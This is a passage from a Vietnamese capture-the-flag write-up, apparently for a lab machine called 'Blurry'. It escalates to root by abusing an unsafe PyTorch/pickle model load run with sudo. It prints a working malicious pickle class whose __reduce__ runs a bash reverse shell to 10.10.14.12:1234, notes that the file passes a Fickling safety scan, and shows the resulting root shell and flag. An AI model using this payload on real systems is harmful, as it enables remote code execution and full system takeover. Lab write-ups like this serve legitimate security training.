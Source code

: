 ```
    evaluate_model(model, dataloader)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python script.py <path_to_model.pth>")
    else:
        model_path = sys.argv[1]  # Path to the .pth file
        main(model_path)
```

Tóm tắt lại thì:

Bash: kiểm tra định dạng, extract, quét pickle bằng Fickling, rồi mới gọi Python.

Python: load model theo đường dẫn.

Tôi sử dụng đoạn script, lợi dụng `__reduce__`, method này cho phép tuần tự hóa tùy chỉnh, kiểm soát việc tái cấu trúc đối tượng và có thể cải thiện hiệu suất. 
Phương pháp này là một phần của giao thức pickle của Python và rất cần thiết cho tính bền vững của đối tượng phức tạp.

```
import os
import torch

class RevShell:
    def __reduce__(self):
        return (os.system, ("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'",))

torch.save(RevShell(), 'test.pth')

```

Khi đoạn python kia gọi đến `load` thì nó sẽ thực thi `os.system` với command `bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'` chạy reverse shell

Thực thi đoạn script với file `test.pth` được truyền vào 
```
jippity@blurry:~$ ls -la /models/
total 1068
drwxrwxr-x  2 root jippity    4096 Sep 24 07:42 .
drwxr-xr-x 19 root root       4096 Jun  3  2024 ..
-rw-r--r--  1 root root    1077880 May 30  2024 demo_model.pth
-rw-r--r--  1 root root       2547 May 30  2024 evaluate_model.py
jippity@blurry:~$ python3 save-torch.py 
jippity@blurry:~$ cp test.pth /models/
jippity@blurry:~$ ls -la /models/
total 1072
drwxrwxr-x  2 root    jippity    4096 Sep 24 09:42 .
drwxr-xr-x 19 root    root       4096 Jun  3  2024 ..
-rw-r--r--  1 root    root    1077880 May 30  2024 demo_model.pth
-rw-r--r--  1 root    root       2547 May 30  2024 evaluate_model.py
-rw-r--r--  1 jippity jippity     916 Sep 24 09:42 test.pth
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/test.pth 
[+] Model /models/test.pth is considered safe. Processing...
```
Lúc này nhận được reverse shell:
```
❯ nc -lvp 1234
Connection from 10.10.11.19:40772
root@blurry:/home/jippity# cat /root/roo	
cat /root/root.txt 
cb0766cd7fffe338f46ba83f883e8799
root@blurry:/home/jippity# 
```

